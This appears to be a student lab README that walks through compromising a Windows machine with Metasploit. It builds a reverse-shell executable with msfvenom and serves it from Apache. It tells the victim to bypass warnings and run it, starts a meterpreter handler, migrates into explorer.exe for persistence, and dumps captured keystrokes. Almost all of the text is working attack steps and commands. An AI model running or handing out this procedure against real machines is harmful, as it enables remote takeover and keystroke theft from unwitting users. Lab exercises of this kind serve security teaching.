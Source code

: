 # Compromising-windows-using-Metasploit

Compromising windows using Metasploit

# Metasploit

Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/662e1113-220c-44d0-aa9f-1c83e254eb5e)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/a894c9ec-aec4-42e4-ae58-931e69c77190)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/2d40f577-88bf-4295-95e6-27bdbbcb9d06)

Start apache server sudo systemctl apache2 start

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/ae2a2d3d-d48c-40b0-896e-c8512f617487)

Check the status of apache2
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/474fad86-07e8-4bb9-84cd-1c87aca83d96)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/031a8ed0-0b12-4635-93cc-516c4d8bfe08)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/b3dc4d12-c7fb-4601-ac8f-b61afd501987)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/41162f9e-b75b-4956-b03e-c83fe535ead8)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/bfc7b80d-4ede-442c-b223-1fef21e57cc1)

The Metasploit shell is running inside the 
"fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/3461a1c8-8dd9-406d-95e7-e225c73d9df5)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/22008686/Compromising-windows-using-Metasploit/assets/118916413/5f4557ea-be68-4a63-a578-4b14379dda22)

## RESULT:

The Metasploit framework is  used to compromise windows and is examined successfully.

